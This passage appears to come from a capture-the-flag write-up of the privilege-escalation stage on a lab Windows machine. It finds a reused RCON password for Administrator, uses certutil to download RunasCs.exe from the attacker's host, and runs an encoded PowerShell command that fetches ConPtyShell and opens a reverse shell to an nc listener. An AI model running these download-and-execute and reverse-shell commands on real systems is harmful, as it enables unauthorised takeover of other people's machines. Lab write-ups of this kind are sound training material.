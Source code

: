 Notice that there is a password that is used for the [rcon protocol](https://wiki.vg/RCON) to execute the command `players online count`.

Testing if this password is reused for admin with `RunasCs.exe`, it works:

```powershell
PS C:\users\svc_minecraft\server\plugins> cd C:\Windows\Temp            
PS C:\Windows\Temp> mkdir privesc 


    Directory: C:\Windows\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----                                                                                                                                          
d-----        6/11/2024   2:19 PM                privesc                                                                                                                                       


PS C:\Windows\Temp> cd privesc
# Download RunasCs.exe from your hosted http server
PS C:\Windows\Temp\privesc> certutil.exe -f -urlcache -split http://10.10.14.221/RunasCs.exe
****  Online  ****
  0000  ...
  ca00
CertUtil: -URLCache command completed successfully.
# Execute whoami as Administrator with RunasCs.exe 
PS C:\Windows\Temp\privesc> .\RunasCs.exe 'Administrator' s67u84zKq8IXw "cmd /c whoami"

crafty\administrator
```

So I will create a base64 payload to execute a ConPtyShell reverse shell (which you can create with the command `echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.221/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.221 -RemotePort 443 -Rows 52 -Cols 191" | iconv -t utf16le | base64 -w 0`) and paste it in the `-enc` argument of powershell to obtain the shell as administrator:

```powershell
PS C:\Windows\Temp\privesc> .\RunasCs.exe 'Administrator' s67u84zKq8IXw "powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMgAxAC8ASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwALgBwAHMAMQAnACkAOwAgAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsACAALQBSAGUAbQBvAHQAZQBJAHAAIAAxADAALgAxADAALgAxADQALgAyADIAMQAgAC0AUgBlAG0AbwB0AGUAUABvAHIAdAAgADQANAAzACAALQBSAG8AdwBzACAANQAyACAALQBDAG8AbABzACAAMQA5ADEACgA="
```

And we receive it!:

```bash
$ nc -lvnp 443
listening on [any]
PS C:\Windows\system32> whoami
crafty\administrator
```
